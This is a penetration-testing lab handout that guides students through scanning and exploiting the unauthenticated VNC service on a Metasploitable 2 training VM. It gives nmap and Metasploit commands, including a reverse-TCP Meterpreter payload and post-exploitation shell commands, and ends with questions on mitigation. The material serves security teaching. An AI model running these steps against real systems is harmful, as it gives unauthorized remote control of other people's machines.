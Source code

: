 # Task: Exploiting VNC Service on Metasploitable 2 (Port 5900)

### Learning Objectives

By the end of this exercise, students will be able to:

* Perform service enumeration on a target system.
* Identify the VNC service running on port `5900`.
* Use Metasploit to exploit weak authentication in VNC.
* Gain a remote shell session on Metasploitable 2.
* Understand the importance of secure configurations for remote desktop services.



### Background

Metasploitable 2 is an intentionally vulnerable Linux machine used for penetration testing practice. One of its services, **VNC (Virtual Network Computing)**, is exposed on port **5900**. VNC allows remote desktop access, but if misconfigured (like using weak authentication), attackers can gain control of the system.



### Lab Requirements

* Kali Linux (Attacker)
* Metasploitable 2 (Target)
* Both machines on the same network (e.g., VirtualBox/VMware Host-only or NAT network).



### Step 1: Reconnaissance with Nmap

Scan Metasploitable to find open ports:

```bash
nmap -sV -p 5900 <target_ip>
```

* `-sV` → Detect service version
* `-p 5900` → Scan only the VNC port

👉 Expected Output:
Shows `5900/tcp open vnc`.



### Step 2: Search for Vulnerabilities in Metasploit

Start Metasploit:

```bash
msfconsole
```

Search for VNC-related exploits:

```bash
search vnc
```

👉 You should find modules like:

* `auxiliary/scanner/vnc/vnc_none_auth`
* `exploit/multi/vnc/vnc_keyboard_exec`



### Step 3: Use the VNC Authentication Bypass Module

Select the module:

```bash
use auxiliary/scanner/vnc/vnc_none_auth
```

Set target IP:

```bash
set RHOSTS <target_ip>
run
```

👉 If vulnerable, it confirms **no authentication is required**.



### Step 4: Exploit and Gain Access

Now, attempt to interact with the session:

```bash
use exploit/multi/vnc/vnc_keyboard_exec
set RHOST <target_ip>
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST <your_kali_ip>
exploit
```

👉 Expected Result:
You get a **Meterpreter session** or a remote shell on Metasploitable.



### Step 5: Post-Exploitation

Once inside:

```bash
shell
whoami
uname -a
```

* Confirm you have remote access.
* Enumerate the system.


### Step 6: Discussion / Mitigation

* Why is running VNC without authentication dangerous?
* How should VNC be secured? (passwords, encryption, network restrictions, VPNs).



###  Deliverables for Students

* Nmap scan result screenshot.
* Proof of successful VNC exploitation (shell access).
* Short write-up: *“How could this vulnerability be prevented in a real system?”*
